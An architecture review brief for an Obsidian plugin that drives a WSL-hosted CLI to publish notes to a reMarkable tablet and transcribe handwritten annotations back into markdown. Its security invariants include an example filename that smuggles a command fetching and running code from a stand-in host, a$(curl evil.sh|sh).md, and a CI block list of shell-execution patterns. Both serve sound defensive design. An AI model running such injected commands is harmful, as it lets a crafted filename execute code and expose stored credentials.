




# ARB — Obsidian Plugin for reMarkable Bridge

> Architecture Review Brief — Synthesized Target Architecture
> Stage 1A (deepseek-v4-pro) + Stage 1B (minimax-m3.1-flash) + Stage 1C (grok-4.6) + Stage 2 (Fusion panel)
> Date: 2026-11-13
> Status: **Final** — pending operator approval

## Business Outcome

**Problem:** No existing Obsidian↔reMarkable tool transcribes handwritten annotations back into markdown. Three plugins exist — all one-directional or marks-only.

**Why now:** The `ormb` CLI (v0.1.0) is built, E2E tested, and open-sourced. The hard part (vision LLM transcription of handwriting) is proven. The thin Obsidian plugin wraps it.

**What good looks like:** One-time guided terminal setup (WSL venv, rmapi, Chromium, pairing, API key), then zero-terminal daily publish and pull — all from the Obsidian UI. The plugin is a thin TypeScript bridge that shells out to the `ormb` CLI via `child_process` and applies structured results through the Vault API.

**Primary supported topology:** Obsidian on Windows, `ormb` CLI in WSL2 Ubuntu. macOS and Linux as first-class peers (Phase 5c). Native Windows Python (T-WIN) as secondary (Phase 5c).

## Architecture Overview

### C4 — System Context



### C4 — Container Diagram (Current State)



### C4 — Container Diagram (Target State)



### Data Flow Sequence



---

## Plugin Architecture

### ExecutionAdapter Pattern

The plugin abstracts the process launch behind an `ExecutionAdapter` interface — one implementation per topology. The adapter is selected once at setup (doctor), stored in settings, and every command uses it.

```typescript
// types.ts

type Topology = 'wsl' | 'native';

interface PlatformConfig {
  topology: Topology;
  pythonBin: string;               // absolute path in the CLI's filesystem
  wslDistro?: string;              // required iff topology === 'wsl'
  automountRoot?: string;          // learned via wslpath at doctor; default '/mnt'
  vaultPathLinux?: string;         // cached translation of getBasePath()
  rmFolder: string;                // default '/Obsidian'
  visionModel: string;             // default 'z-ai/glm-4.5v'
  rmapiBin?: string;               // absolute, if ORB_RMAPI_BIN needed
}

interface OrmbResult {
  ok: boolean;
  code: string;                    // 'published' | 'transcribed' | 'not_paired' | ...
  message: string;
  data?: Record<string, unknown>;
}

// ExecutionAdapter — one impl per topology
interface ExecutionAdapter {
  spawn(args: string[], envExtras?: Record<string, string>): Promise<OrmbResult>;
  doctor(): Promise<DoctorResult>;
  translateVaultRoot(windowsPath: string): string;
}
```

### WSL Adapter (T-WSL) — Primary

```typescript
// wsl-adapter.ts

import { spawn } from 'child_process';

const WSL_EXE = 'C:\\Windows\\System32\\wsl.exe';

function wslAdapter(config: PlatformConfig): ExecutionAdapter {
  const pythonMod = ['-m', 'obsidian_rm_bridge'];

  function spawnOrmb(args: string[], envExtras?: Record<string, string>): Promise<OrmbResult> {
    return new Promise((resolve, reject) => {
      const childArgs = [
        '--distribution', config.wslDistro!,
        '--exec', config.pythonBin,
        ...pythonMod,
        ...args,
      ];

      const child = spawn(WSL_EXE, childArgs, {
        windowsHide: true,
        stdio: ['ignore', 'pipe', 'pipe'],
        env: {
          ...process.env,
          WSL_UTF8: '1',
          PYTHONIOENCODING: 'utf-8',
          NO_COLOR: '1',
          ...envExtras,
        },
      });

      let stdout = '';
      let stderr = '';

      child.stdout.on('data', (d: Buffer) => { stdout += d.toString('utf-8'); });
      child.stderr.on('data', (d: Buffer) => { stderr += d.toString('utf-8'); });

      child.on('close', (code) => {
        if (code === 0) {
          resolve(parseOrmbJson(stdout));
        } else {
          resolve({ ok: false, code: 'cli_error', message: stderr || `Exit ${code}` });
        }
      });

      child.on('error', (err) => {
        resolve({ ok: false, code: 'spawn_failed', message: err.message });
      });
    });
  }

  function translateVaultRoot(windowsPath: string): string {
    return winToWsl(windowsPath, config.automountRoot || '/mnt');
  }

  return {
    spawn: spawnOrmb,
    doctor: () => spawnOrmb(['doctor', '--json']) as any,
    translateVaultRoot,
  };
}
```

### Native Adapter (macOS/Linux — Phase 5c)

```typescript
// native-adapter.ts

import { spawn } from 'child_process';

function nativeAdapter(config: PlatformConfig): ExecutionAdapter {
  function spawnOrmb(args: string[], envExtras?: Record<string, string>): Promise<OrmbResult> {
    return new Promise((resolve, reject) => {
      const child = spawn(config.pythonBin, ['-m', 'obsidian_rm_bridge', ...args], {
        stdio: ['ignore', 'pipe', 'pipe'],
        env: { ...process.env, NO_COLOR: '1', ...envExtras },
      });

      let stdout = '';
      let stderr = '';
      child.stdout.on('data', (d: Buffer) => { stdout += d.toString('utf-8'); });
      child.stderr.on('data', (d: Buffer) => { stderr += d.toString('utf-8'); });
      child.on('close', (code) => {
        if (code === 0) {
          resolve(parseOrmbJson(stdout));
        } else {
          resolve({ ok: false, code: 'cli_error', message: stderr || `Exit ${code}` });
        }
      });
      child.on('error', (err) => {
        resolve({ ok: false, code: 'spawn_failed', message: err.message });
      });
    });
  }

  return {
    spawn: spawnOrmb,
    doctor: () => spawnOrmb(['doctor', '--json']) as any,
    translateVaultRoot: (p: string) => p,
  };
}
```

### Settings Schema

```typescript
// settings.ts — stored in data.json (no secrets)

interface RmBridgeSettings {
  // Platform (set once at setup; doctor re-validates on load)
  topology: 'wsl' | 'native';
  pythonBin: string;               // absolute, CLI filesystem
  wslDistro: string;               // required iff topology === 'wsl'
  automountRoot: string;           // e.g. '/mnt', learned from wslpath at doctor and cached

  // reMarkable
  rmFolder: string;                // default '/Obsidian'; allowlist: ^/[A-Za-z0-9 _./-]{1,200}$

  // Vision (no api key — CLI owns it in 0600 config.toml)
  visionModel: string;             // default 'z-ai/glm-4.5v'

  // Derived / cached (not user-editable)
  vaultPathLinux: string;          // translated vault root
  rmapiBin?: string;               // absolute rmapi path, set by doctor if PATH misses it

  // Consent
  pullConsentGiven: boolean;       // first-run vision egress consent
}
```

### Command Surface

| Command | Trigger | CLI invocation | Notes |
|---------|---------|---------------|-------|
| **Publish to reMarkable** | Command palette, ribbon icon, file context menu | `publish --md <rel-path> --vault <root> --on-exists fail --json` | Saves dirty editor first. No default hotkey. |
| **Pull annotations** | Command palette, file context menu | `pull --emit json --md <rel-path> --vault <root> --json` | Shows confirmation modal (page count, model, OpenRouter disclosure). Plugin writes via `vault.process`. |
| **Test connection (doctor)** | Settings tab button | `doctor --json` | Renders status grid in settings UI. One-click. |

**Explicitly NOT in v1 command surface:**
- `pull --all` (broken for subfolder vaults; removed)
- `pair` (terminal-only; settings tab shows copyable command)
- `setup` via plugin (terminal-only; settings tab shows copyable command)
- `autoPublishOnSave` (destroys ink on republish; removed)
- `ls` / `rm` (debugging commands; may add later)

### Error Handling

All errors flow through the JSON result envelope. The plugin maps `code` to UI action:

| code | UI response |
|------|-------------|
| `published` | `Notice("Published ✓")` |
| `transcribed` | `Notice("Pulled N annotations ✓")` |
| `not_paired` | `Notice("reMarkable not paired. Run 'ormb pair' in your WSL terminal.")` + settings CTA |
| `key_missing` | `Notice("OpenRouter API key not configured. Run 'ormb config set-key' in your WSL terminal.")` |
| `rmapi_missing` | `Notice("rmapi not found. Run 'ormb setup --rmapi' in your WSL terminal.")` |
| `chromium_missing` | `Notice("Playwright Chromium not installed. Run 'ormb setup' in your WSL terminal.")` |
| `doc_exists` | `Notice("Document already on reMarkable. Use 'ormb publish --on-exists content-only' in terminal to update.")` |
| `note_not_found` | `Notice("Source note not found in vault.")` |
| `path_containment` | `Notice("Path rejected: outside vault.")` |
| `spawn_failed` | `Notice("Could not launch ormb. Check Settings → Test connection.")` |
| `rate_limited` | `Notice("OpenRouter rate limited. Wait and retry.")` |
| `cli_error` | `Notice("ormb error: ... " + message)` |

Single-flight lock: only one `spawn` at a time per plugin instance. Concurrent invocations queue and are rejected with a busy notice.

---

## CLI Contract Changes (Phase 5a-0 — Python, before any TS)

These changes are prerequisites for the plugin. Without them, the plugin cannot be written safely.

### 1. `--json` result envelope on `publish` and `pull`

Every command that the plugin invokes outputs a single JSON object to **stdout** on success. Stderr remains for human-readable progress/logging.

```json
{
  "ok": true,
  "code": "published",
  "message": "Published 'concepts/notes' (3 pages) to /Obsidian",
  "data": {
    "name": "concepts/notes",
    "folder": "/Obsidian",
    "pages": 3,
    "doc_id": "abc123"
  }
}
```

Error envelope:
```json
{
  "ok": false,
  "code": "not_paired",
  "message": "reMarkable not paired. Run 'ormb pair' or set RMAPI_CONFIG.",
  "data": null
}
```

Standardized error codes:
- `not_paired` — rmapi token missing or invalid
- `rmapi_missing` — rmapi binary not found
- `chromium_missing` — Playwright browser not installed
- `key_missing` — `OPENROUTER_API_KEY` env var and `config.toml` both lack the key
- `doc_exists` — republish blocked (see `--on-exists`)
- `note_not_found` — source `.md` not found at `--md` path
- `path_containment` — `--md` resolves outside `--vault`
- `rate_limited` — OpenRouter 429
- `vision_failed` — all pages failed transcription
- `cli_error` — unclassified runtime error

### 2. `doctor --json`

```json
{
  "ok": true,
  "version": "0.1.1",
  "schema_version": 1,
  "rmapi": {
    "path": "/home/user/.local/bin/rmapi",
    "version": "0.0.35",
    "found": true
  },
  "chromium": "ok",
  "vault": "reachable",
  "paired": true,
  "key_present": true,
  "errors": []
}
```

`chromium` is one of: `ok`, `missing`, `missing-deps` (Linux libs needed — surface as copyable sudo command).

### 3. `pull --emit json`

`--emit json` writes **nothing** to disk. Returns formatted annotation sections in the JSON data field, keyed per page. The plugin owns all vault writes.

```json
{
  "ok": true,
  "code": "transcribed",
  "data": {
    "sections": [
      {"page": 1, "text": "## Annotations from reMarkable — 2026-11-13\n\n- Note 1\n"},
      {"page": 3, "text": "### Page 3 notes\n\n- Note on page 3\n"}
    ],
    "doc_id": "abc123",
    "total_pages": 3,
    "annotated_pages": 2
  }
}
```

Default (terminal-user) `pull` behaviour without `--emit` is unchanged — backward-compatible.

### 4. `publish --on-exists=fail|content-only`

Default: `fail` with `code: "doc_exists"` and actionable message.

`--on-exists content-only` uses rmapi's `--content-only` flag: replaces only the PDF content while preserving annotations. Fix the CLI's internal comment claiming `--force` "creates duplicates" — per upstream rmapi docs, `--force` destroys annotations.

### 5. `--vault <path>` flag

Explicit vault root passed on every plugin invocation. CLI resolves `--md` against this root and asserts containment (`resolve().is_relative_to(vault_root)`). `config.vault.path` is **never** used for plugin invocations.

### 6. `expandvars` removal on argv paths

`expand_path` → `os.path.expandvars` must not be applied to `--md` and `--vault` CLI arguments. Only config values should be expanded. A note named `Budget $HOME.md` must not be rewritten.

### 7. rmapi resolution fallback

1. `ORB_RMAPI_BIN` env var → 2. `config.rmapi.path` → 3. `shutil.which("rmapi")` → 4. `~/.local/bin/rmapi` (existence check).

### 8. Mermaid security + renderer hardening

- `securityLevel: 'strict'` (from `'loose'`), `htmlLabels: false`
- Playwright `route` interceptor: allow `data:`, in-vault `file:` (containment-checked), mermaid CDN only
- No out-of-vault `file://` URIs — resolve, contain, read bytes in Python, rewrite to `data:` URLs

### 9. Config hardening

`O_NOFOLLOW` + `os.fchmod(fd, 0o600)` + `S_ISREG`/`st_uid` check in `config.set()` and `config.init_config()`.

### 10. `config set-key` (stdin-based)

Reads API key from stdin/getpass — key never in argv. Keep legacy `config set openrouter_api_key <key>` with deprecation note.

### 11. `--vault` containment on write paths

`cmd_publish` and `cmd_pull` assert `resolve(--md).is_relative_to(--vault)` before any `open()`.

---

## Security Model

### Trust Boundaries

```
┌─────────────────────────────────────────────────────────────────┐
│ Trust boundary 1: Plugin runtime (Obsidian/Electron, Windows)   │
│   • No secret material (no API key, no rmapi token)            │
│   • data.json = non-sensitive settings only                    │
│   • Vault content is UNTRUSTED INPUT                           │
├─────────────────────────────────────────────────────────────────┤
│ Trust boundary 2: WSL bridge (wsl.exe --exec)                   │
│   • argv-only — no shell, no interpolation                     │
│   • Absolute paths only — C:\Windows\System32\wsl.exe          │
│   • Values are positional params, never shell text             │
├─────────────────────────────────────────────────────────────────┤
│ Trust boundary 3: WSL distro (Python CLI)                       │
│   • Secret material lives here (config.toml 0600, ~/.rmapi)    │
│   • Containment check on every file open                       │
│   • Renderer sandboxed (strict mermaid, route filter, CSP)     │
├─────────────────────────────────────────────────────────────────┤
│ Trust boundary 4: Network (reMarkable Cloud, OpenRouter)        │
│   • TLS verified everywhere                                    │
│   • Page images sent to OpenRouter (disclosed + consented)     │
│   • Transcribed text treated as untrusted data                 │
└─────────────────────────────────────────────────────────────────┘
```

### Invariants

1. **No vault-derived byte is ever parsed as shell code or a template.**
   - `wsl.exe --exec` passes args as `argv[]` — note named ``a$(curl evil.sh|sh).md`` is a filename, not a command.
   - No `exec()`, `execSync()`, `shell: true`, `bash -c`, or `cmd.exe /c` anywhere in plugin source.
   - CI grep blocks these mechanically.

2. **Credentials live outside the vault.**
   - OpenRouter API key: `~/.obsidian-rm-bridge/config.toml` (0600), inside WSL home. Plugin never reads, stores, or transmits it.
   - rmapi token: `~/.rmapi` (0600, validated at doctor). Plugin never reads, copies, or displays it.

3. **Every path handed to a child process is containment-checked.**
   - Plugin side: `file.path` has no `..` or NUL; reject upfront.
   - CLI side: `resolve(--md).is_relative_to(--vault)` before any `open()`.
   - Symlinks rejected at both boundaries.

4. **The `publish` → annotate → `pull` → `publish` cycle is safe.**
   - `pull --emit` returns JSON; plugin writes via `vault.process`.
   - Marker blocks (`<!-- ormb:annotations ... -->`) are replaced, not appended — idempotent pulls.
   - `publish` strips marker blocks before rendering — no feedback loop.

### Non-goals / Accepted Risks

- **A malicious Obsidian plugin can read this plugin's memory and `data.json`.** Obsidian has no inter-plugin isolation. Mitigation: no secrets in the plugin.
- **A same-UID process can read `/proc/<pid>/environ`.** Acceptable for single-user desktop tool given no key in the env.
- **The rmapi token in `~/.rmapi` is a single point of cloud-account compromise.** The plugin does not create this risk; it avoids amplifying it.
- **OpenRouter sees the document images.** Design property of vision transcription. Disclosed and consented to on first pull. Annotation-only cropping planned for v2.
- **WSL is its own supply chain.** The plugin cannot attest to integrity of Python venv, rmapi, or Chromium inside the distro.

---

## Supported Topologies

| ID | Obsidian process | CLI / venv / rmapi / Chromium | Phase |
|----|------------------|-------------------------------|-------|
| **T-WSL** | Windows (`win32`) | WSL2 Ubuntu | **5a — primary** |
| **T-MAC** | macOS (`darwin`) | Native venv at `~/.venvs/ormb` | 5c |
| **T-LINUX** | Linux desktop (`linux`, official AppImage/.deb) | Native venv + `~/.local/bin/rmapi` | 5c |
| **T-WIN** | Windows (`win32`) | Native Windows Python venv | 5c (secondary) |

**Explicitly rejected for v1** (hard error, not silent failure):

| Topology | Reason |
|----------|--------|
| T-MIXED (CLI split across Windows/WSL) | Two homes, two configs, two rmapi tokens — undebuggable |
| Snap/Flatpak Obsidian | Sandboxed spawn not reliable |
| WSL1 | Playwright Chromium often fails; `doctor` warns if detected |

---

## Path Translation (T-WSL)

The plugin translates **only the vault root**, once at doctor time. Note paths passed as vault-relative POSIX (Obsidian's `file.path` is already `/`-separated). The CLI joins and resolves.

```typescript
// path-translate.ts — pure function, unit-testable

function winToWsl(windowsPath: string, automountRoot: string = '/mnt'): string {
  // 1. Reject NUL and control characters
  if (/[\x00-\x1f]/.test(windowsPath)) throw new Error('Path contains control characters');

  // 2. UNC \\wsl$\<distro>\... — reject (vault on \\wsl$ is T-MIXED)
  if (windowsPath.startsWith('\\\\')) throw new Error('UNC paths not supported');

  // 3. Drive letter → automount
  const driveMatch = windowsPath.match(/^([A-Za-z]):[\\/](.*)$/);
  if (!driveMatch) throw new Error(`Unsupported path format: ${windowsPath}`);

  const drive = driveMatch[1].toLowerCase();
  const rest = driveMatch[2].replace(/\\/g, '/');

  return `${automountRoot}/${drive}/${rest}`;
}
```

`automountRoot` is learned once at doctor via `wsl.exe --exec wslpath -a -u 'C:\\'` and cached in settings.

---

## Consolidated Risk Register

| # | Risk | S | L | Source | Mitigation | Phase |
|---|------|:-:|:-:|--------|------------|-------|
| **R1** | Shell-interpolated WSL bridge → RCE from note filename (exposes `~/.rmapi` + API key) | **H** | M | 1B, 1C | `wsl.exe --exec` argv-only; CI grep bans `exec(`, `shell: true`, `bash -c`, `cmd.exe` | 5a |
| **R2** | Plugin can't run at all on primary topology (`execFile('ormb')`, missing `WSLENV`, rmapi not on non-login PATH) | **H** | H | 1A, 1C, B5 | Launcher abstraction; vault as flag; CLI rmapi fallback; `doctor --json` | 5a |
| **R3** | Republish fails (no flag) or destroys ink (`--force`); amplified by `autoPublishOnSave` | **H** | H | B1 | `--on-exists=fail\|content-only`; remove auto-publish; test `--content-only` alignment | 5a |
| **R4** | Pull races editor / clobbers unsaved edits / duplicates sections / feedback loop | **H** | H | B2 | CLI `--emit json` (emit-only); plugin writes via `vault.process`; marker block replace; publish strips markers | 5a, 5b |
| **R5** | API key plaintext in synced `data.json` | **H** | H | 1A, 1B, 1C | No key in plugin; `config set-key` via stdin; CLI `config.toml` outside vault | 5a |
| **R6** | Path traversal / out-of-vault append (`--md` absolute, `pull --all` remote names with `../`) | **H** | L–M | 1B | CLI `is_relative_to(vault)` on every write path; drop `pull --all` in v1 | 5a |
| **R7** | Renderer: raw HTML/mermaid `loose` JS + `file://` symlink exfil to cloud + SSRF | **H** | L | 1B | Mermaid `strict`; Playwright `route` blocks non-allowlisted requests; no out-of-vault `file://`; sanitiser option in 5c | 5a, 5c |
| **R8** | Name collisions / subfolder notes unreachable | **M** | H | B3 | Explicit note path for pull; collision refusal on publish; frontmatter doc-id in v1.1 | 5a, 5b |
| **R9** | Vision cost and data egress on every pull, all pages | **M** | H | B4, 1B | Confirm dialog with page count + model; first-run consent; single-flight | 5b |
| **R10** | Brittle stderr parsing, opaque exit code 1 | **M** | H | 1A, 1C | `--json` result envelope + distinct error codes | 5a |
| **R11** | `expandvars` rewrites note names with `$`/`~` | **M** | L | B6 | Stop expanding argv paths; only expand config values | 5a |
| **R12** | Orphaned Linux processes on cancel/timeout; WSL cold start; UTF-16LE errors | **M** | M | B5 | Emit-only pull (no half writes); separate cold-start/steady-state timeouts; `WSL_UTF8=1`; defensive decode | 5a |
| **R13** | Obsidian-specific syntax (wikilinks, callouts, attachments) renders poorly | **M** | H | B7 | Document limits in README; wikilink→text pre-pass in 5c; v2 Electron render spike | 5c, v2 |
| **R14** | Community store rejection (hotkeys, desktop-only, disclosures, sudo button) | **M** | M | B8 | `isDesktopOnly: true`; no default hotkeys; README disclosures; no setup/pair/sudo buttons | 5c |
| **R15** | Config file perms: `O_CREAT` mode not reapplied, no `O_NOFOLLOW` | **M** | L | 1B | `fchmod` + `O_NOFOLLOW` in `config.set` / `config.init_config` | 5a |
| **R16** | Supply chain: rmapi `releases/latest` unpinned/unchecksummed; floating CI actions | **M** | L | 1B | Pin rmapi version + SHA-256; SHA-pin CI actions | 5c |
| **R17** | rmapi breakage from reMarkable cloud changes; AGPL if bundled | **M** | M | B9 | Pin + doctor reports version; never bundle without license review | 5d |
| **R18** | Plugin/CLI version skew | **L** | M | B9 | `schema_version` in `doctor --json`; plugin min-version check | 5a |
| **R19** | Native Windows: rmapi in `~\\.local\\bin` not on PATH; `.cmd` EINVAL | **M** | M | 1C | `python.exe -m`; CLI rmapi fallback | 5c |

**S (Severity):** H = data loss, RCE, credential theft, systemic unavailability. M = degraded UX, partial breakage, cost spike.  
**L (Likelihood):** H = certain without mitigation. M = probable under expected usage. L = requires an adversary or specific environment.

---

## Revised Delivery Plan

### Phase 5a-0: CLI Contract (Python, before any TypeScript) ~150–250 LOC + tests

*Prerequisite for the plugin. No TS work starts until this ships.*

1. `--json` result envelope on `publish` and `pull` with standardized error codes.
2. `doctor --json` with `schema_version`.
3. `pull --emit json` (no file write). Default terminal `pull` unchanged.
4. `publish --on-exists=fail|content-only` (default `fail`). Fix the `--force` comment.
5. `--vault <path>` flag; containment assertion on every note read/write path.
6. Stop `expandvars` on argv paths (config values only).
7. rmapi lookup fallback: `ORB_RMAPI_BIN` → `config.rmapi.path` → `shutil.which` → `~/.local/bin/rmapi`.
8. Mermaid `securityLevel: 'strict'`; Playwright route interceptor; no out-of-vault `file://` URIs.
9. `config set-key` via stdin/getpass.
10. `fchmod` + `O_NOFOLLOW` in `config.set` / `config.init_config`.

**Acceptance:** all existing 94 tests pass; new tests for `--json`, `--emit`, `--on-exists`, containment, `expandvars` regression, `doctor --json`, rmapi fallback.

### Phase 5a: Plugin Scaffold + Publish (T-WSL First) ~250–350 TS LOC

1. **Scaffold:** `manifest.json` (`isDesktopOnly: true`), `versions.json`, `package.json`, `tsconfig.json`, `esbuild.config.mjs`, `.gitignore`. Monorepo `plugin/` subfolder.
2. **`types.ts`:** `PlatformConfig`, `OrmbResult`, `ExecutionAdapter` interface, `DoctorResult`.
3. **`wsl-adapter.ts`:** `spawn`, `doctor`, `translateVaultRoot`.
4. **`path-translate.ts`:** `winToWsl` pure function with fixtures.
5. **`vault.ts`:** translate vault root once; derive `vaultPathLinux`.
6. **`main.ts`:** Plugin load → init adapter → doctor → surface warnings. Register "Publish to reMarkable" command (palette, ribbon, file-menu). Publish flow: save dirty editor → construct args → `adapter.spawn(...)` → parse JSON → Notice. Single-flight lock. `onunload`: abort child.
7. **`settings.ts`:** Launcher picker, distro, `pythonBin`, `rmFolder` (allowlist), `visionModel`. **No API key field.** "Test connection" button → `doctor --json` → status grid. Copyable terminal commands for `pair`, `setup --rmapi`, `setup`, `config set-key`.
8. **Unit tests:** `winToWsl` fixtures; assert no `shell`, absolute `wsl.exe`, `windowsHide: true`, `WSL_UTF8`/`PYTHONIOENCODING` in env.
9. **CI:** grep ban on `exec(`, `execSync(`, `shell: true`, `bash -c`, `cmd.exe /c`.
10. **Manual E2E** on real Windows + WSL2: publish subfolder note, Unicode filename, `$` in name, republish → `doc_exists`, cold WSL → within 60 s.

### Phase 5b: Pull + Marker Blocks ~100–150 TS LOC

1. **Pull annotations command:** palette + file-menu. Confirmation modal (page count, model, OpenRouter disclosure). First-run consent toggle. Spawn: `pull --emit json --md <rel> --vault <root> --json`. Parse JSON → marker block (`<!-- ormb:annotations doc=<id> rev=<hash> -->`). Apply via `vault.process`. Pull again → marker replaced, not duplicated.
2. **Publish strips marker blocks** (CLI) — prevents feedback loop.
3. **Status bar** progress from stderr (best-effort).
4. **Manual E2E:** publish → annotate → pull → pull again (no dup) → republish `content-only` → pull → verify ink.

**Removed from v1 scope:** Pull all, Pair modal, Setup button, auto-publish.

### Phase 5c: Polish + Release

1. **Native adapter** for T-MAC, T-LINUX, T-WIN.
2. **Topology detection and selection** in settings.
3. **README:** architecture summary, supported topologies, disclosures (network use, third-party data egress to reMarkable Cloud + OpenRouter, external binary execution), install guide per topology, screenshots.
4. **Supply chain:** pin rmapi version + SHA-256; SHA-pin CI actions; release checksums.
5. **HTML sanitiser option** (bleach allowlist).
6. **Wikilink → text pre-pass.**
7. **Community store submission.**

### Phase 5d / v2 (Planning Only)

- PyPI release.
- Frontmatter `rm_doc_id` mapping → revive `pull --all`.
- `pair --code` (after verifying rmapi accepts piped stdin).
- Electron-native render spike (`MarkdownRenderer` + `webContents.printToPDF`).
- Annotation-region cropping.
- AGPL review before any binary bundling of rmapi.

---

## Design Decisions

| Decision | Choice | Rationale |
|----------|--------|-----------|
| Plugin architecture | **Thin TS wrapper** around `ormb` CLI | CLI is built, tested, E2E proven. ~2,800 LOC Python stays in Python. Plugin is ~350 LOC glue. |
| Process launch | **`spawn` with argv, not `execFile`** | Streaming stdio, explicit env control, no output buffering limit, and `wsl.exe --exec` requires argv separation. |
